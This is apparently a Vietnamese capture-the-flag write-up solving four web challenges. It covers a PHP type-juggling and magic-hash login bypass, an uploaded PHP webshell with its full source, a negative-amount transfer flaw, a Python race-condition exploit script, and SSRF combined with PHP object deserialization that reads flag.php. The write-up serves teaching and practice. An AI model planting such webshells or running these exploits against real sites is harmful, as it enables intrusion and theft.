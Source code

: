 # **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

# Be Positive
Bài này chỉ cần lúc chuyển chiền cho tài khoản khác sửa thành số âm là được. sau đó dùng số tiền đó để mua flag

# Slow Down
Bài này trang web tương tự Be Positive, payload nhưng chuyển tiền qua tài khoản khác bằng số âm đã không còn hoạt động ở bài này. Mình nghĩ bài này rất có thể sẽ bị lỗ hổng race condition=> đúng thật là nó ;v

**exploit**
```
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://slow-down-44f3a156.dailycookie.cloud/?action=transfer', cookies={"PHPSESSID": "e4dbc35e8795f3889acff05a0baff65d"}, data={"amount": "100.849%","recipient":"alice"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d39804e2-b510-498c-8ec0-794fa3888acb)

# Video Link Extractor
+ Khi thực hiện extract localhost trang web thực hiện đoạn code:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/96d5c64e-0dd3-4e96-a5d0-9af5e56a98dc)
+ Ta có thể lợi dụng tham số id để gọi đến `redirect ` và khiến nó truy cập vào trang web khác 
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/79b9f246-6418-4b22-b75b-17be148af615)
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/c5e03245-27eb-4c41-827c-0e5d7721603f)
+ Đã thực hiện get vào trang web của mình
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/f61766f4-0e69-4551-8981-a7055e0447ea)

Untrusted data sẽ là response ta trả về, khi đó nó được unserialize
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d7d50fe9-c81c-4c3c-90e7-94338d6498a5)
Thêm vào đó object Utils khi __wakeup sẽ gọi $this->_file
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/fd5ebec4-0a91-4d57-be85-c6bd1333cbe8)
Script tạo serialize data:
```
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/3c8e2fb8-eea4-4e69-8fa1-cc04a4516059)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/241fcbd6-4164-4401-ad53-41fd4d5bbce0)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7620d7ab-7190-40f5-adc3-e5b2120a418f)


